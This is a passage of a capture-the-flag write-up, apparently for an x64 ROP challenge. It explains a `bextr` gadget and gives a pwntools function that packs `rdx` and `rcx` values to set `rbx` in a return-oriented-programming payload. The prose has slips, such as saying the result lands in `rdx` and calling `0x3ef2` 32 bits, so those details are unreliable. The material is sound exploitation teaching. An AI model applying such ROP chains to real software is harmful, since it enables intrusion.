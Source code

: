 Let's start by creating a function which sets `rbx`

### Set rbx
![gadget2](/images/fluff/x64-gadget2.png)

`bextr` will extract bits from `rcx` according to the
arguments set in `rdx` and save it in `rdx`. The `add`
instruction will mess with our `rcx` value we're going
to set from the stack. In order to ignore this, we
can just shift our value to avoid the add.

For example, say we want to copy the number `123` but
the number `7` will always be added to it. To ignore the
`+7` we can shift our value `123` -> `1230`. This way,
`7` will still get added to the string but we can set
the extraction arguments such that we only read the first
3 digits. Our value will become `1237` but by extracting
the first 3 numbers we get our original value of `123`

To extract the correct bits we should refer to the
[bextr documentation](https://www.felixcloutier.com/x86/bextr){:target="_blank"}{:rel="noopener noreferrer"}.
`0x3ef2` is 32 bits so we want to read 32 bits starting
and index 32. These values are set into the first 16 bits
of `rdx`

```python
#!/bin/python3
from pwn import *

gadget2 = 0x0040062a

def set_rbx(addr):
    payload = b''

    # index and length of bits to copy
    # first 8 index
    rdx1 = p8(32)
    # last 8 len
    rdx2 = p8(32)
    rdx3 = p32(0) + p16(0)
    rdx = rdx1 + rdx2 + rdx3

    # address we want to copy
    # addr + 0x3ef2
    # avoid addition by leaving it blank
    # 0xXXXX0000
    # 0x00003ef2
    rcx1 = p32(0)
    rcx2 = p32(addr)
    rcx = rcx1 + rcx2

    # sets rbx
    payload += p64(gadget2) + rdx + rcx
    return payload
```
